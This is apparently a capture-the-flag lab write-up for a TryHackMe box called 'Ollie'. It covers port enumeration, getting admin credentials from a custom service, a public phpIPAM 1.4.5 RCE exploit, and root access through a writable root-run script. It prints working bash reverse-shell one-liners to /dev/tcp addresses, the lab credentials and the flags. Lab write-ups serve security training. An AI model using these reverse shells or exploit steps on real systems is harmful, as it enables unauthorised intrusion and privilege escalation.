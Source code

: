 ```yaml
---
sticker: emoji//1f415
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | ssh     |
| 80   | http    |
| 1337 | waste   |



# RECONNAISSANCE
---

If we check the website, we can see this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250403160350.png)

We need some credentials in order to access this, we can check a hidden directory at `robots.txt`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250403160417.png)

That just takes us to a Youtube video:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250403160441.png)


If we recall our nmap scan, we can see a strange service running at `1337`, something called `waste`, let's interact with it using netcat:

```
nc IP 1337
```


If we follow the string of the conversation, we can see this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250403160543.png)

Right answer is bulldog, we can get this by either trying many times or just checking the theme of the room:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250403160710.png)

If we answer correctly, we get the following:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250403160724.png)

We got credentials:

```
admin:OllieUnixMontgomery!
```

Since we got the credentials, we can finally go inside the dashboard:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250403160828.png)


# EXPLOITATION
---

We are dealing with something called `phpIPAM 1.4.5`m we can search for an exploit:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250403160856.png)

Let's try it out.

Link: https://www.exploit-db.com/exploits/50963

```
python3 exploit.py -url http://10.10.161.122/ -usr admin -pwd 'OllieUnixMontgomery!' -cmd 'id' --path /var/www/html
```


If we use the exploit correctly, we can see this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250403161633.png)

There we go, we got `rce`, let's send ourselves a shell, let's go to `evil.php` and use the following command:

```
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FYOUR_IP%2F4444%200%3E%261%22
```

We need to have our listener ready and once we send the command, we'll notice this:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250403162334.png)

Let's proceed privilege escalation.



# PRIVILEGE ESCALATION
---


First step is stabilizing our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250403162450.png)

We can reuse the same credentials for user `ollie` inside of the shell, let's do it:

```
ollie:OllieUnixMontgomery!
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250403164153.png)

Now, we can read the `user.txt` flag:

```
ollie@hackerdog:/tmp$ cat /home/ollie/user.txt
THM{Ollie_boi_is_daH_Cut3st}
```

From here, I tried using linpeas but nothing useful was truly found on here, we can use `pspy` to check on active processes

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250403164331.png)

Something weird is being run by root, let's check this feedme stuff:

```
ollie@hackerdog:/tmp$ find / -name feedme 2>/dev/null
/usr/bin/feedme
```

We got a binary called `feedme`, let' see it:

```
ollie@hackerdog:/tmp$ file /usr/bin/feedme
/usr/bin/feedme: Bourne-Again shell script, ASCII text executable
```

```
ls -la /usr/bin/feedme
-rwxrw-r-- 1 root ollie 30 Feb 12  2022 /usr/bin/feedme
```

We can write on the script, let's simply put a reverse shell on the file and wait for it to be executed again:

```
echo 'bash -c "bash -i >& /dev/tcp/10.6.34.159/9001 0>&1"' >> /usr/bin/feedme
```

Now, set up the listener and wait a bit to see the connection:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250403164633.png)

We got root finally, let's read `root.txt`:

```
root@hackerdog:/# cat /root/root.txt
THM{Ollie_Luvs_Chicken_Fries}
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250403164709.png)



